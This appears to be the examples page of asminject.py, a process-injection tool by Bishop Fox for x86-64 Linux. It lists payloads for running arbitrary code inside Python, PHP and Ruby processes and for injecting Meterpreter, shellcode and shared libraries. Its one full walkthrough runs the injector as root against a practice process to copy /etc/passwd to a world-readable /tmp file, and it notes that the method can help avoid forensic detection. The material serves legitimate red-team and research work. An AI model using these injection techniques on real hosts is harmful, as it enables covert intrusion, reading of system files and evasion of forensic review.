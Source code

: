 # asminject.py examples - x86-64 payloads
* [Create a world-readable copy of a file using only Linux syscalls](#create-a-world-readable-copy-of-a-file-using-only-linux-syscalls)
* [Execute arbitrary Python code inside an existing Python 3 process](#execute-arbitrary-python-code-inside-an-existing-python-3-process)
* [Execute arbitrary Python code inside an existing Python 2 process](#execute-arbitrary-python-code-inside-an-existing-python-2-process)
* [Execute arbitrary PHP code inside an existing PHP process](#execute-arbitrary-php-code-inside-an-existing-php-process)
* [Execute arbitrary Ruby code inside an existing Ruby process](#execute-arbitrary-ruby-code-inside-an-existing-ruby-process)
* [Inject Meterpreter into an existing process](#inject-meterpreter-into-an-existing-process)
* [Inject shellcode into a separate thread of an existing process](#inject-shellcode-into-a-separate-thread-of-an-existing-process)
* [Inject a Linux shared library (.so) file into an existing process, like the original dlinject.py](#inject-a-linux-shared-library-so-file-into-an-existing-process-like-the-original-dlinjectpy)
* [Inject a Linux shared library (.so) file into a new thread in an existing process](#inject-a-linux-shared-library-so-file-into-a-new-thread-in-an-existing-process)
* [Create a copy of a file using buffered read/write libc calls](#create-a-copy-of-a-file-using-buffered-readwrite-libc-calls)

## Create a world-readable copy of a file using only Linux syscalls

This code requires no relative offset information, because it's all done using Linux syscalls. It may also help avoid some methods of forensic detection versus using the `cp`, `cat`, or other shell commands.

In one terminal window, launch one of the practice targets, e.g.:

```
$ python3 practice/python_loop.py

2022-05-12T19:41:23.109251 - Loop count 0
2022-05-12T19:41:28.115898 - Loop count 1
2022-05-12T19:41:33.119542 - Loop count 2
```

In a second terminal window, find the process ID of the target and run `asminject.py` (as `root`) against it.

This payload requires two variables: `sourcefile` and `destfile`.

```
# ps auxww | grep python3 | grep -v grep

user     2036577  1.8  0.2  16920 10288 pts/3    S+   12:41   0:00 python3 practice/python_loop.py

# python3 ./asminject.py 2036577 asm/x86-64/copy_file_using_syscalls.s --var sourcefile "/etc/passwd" --var destfile "/tmp/bishopfox.txt"

                     .__            __               __
  _____  ___/\  ____ |__| ____     |__| ____   _____/  |_  ______ ___.__.
 / _  | / ___/ /    ||  |/    \    |  |/ __ \_/ ___\   __\ \____ <   |  |
/ /_| |/___  // / / ||  |   |  \   |  \  ___/\  \___|  |   |  |_> >___  |
\_____| /___//_/_/__||__|___|  /\__|  |\___  >\___  >__| /\|   __// ____|
        \/                   \/\______|    \/     \/     \/|__|   \/

asminject.py
v0.11
Ben Lincoln, Bishop Fox, 2022-05-11
https://github.com/BishopFox/asminject
based on dlinject, which is Copyright (c) 2019 David Buchanan
dlinject source: https://github.com/DavidBuchanan314/dlinject

```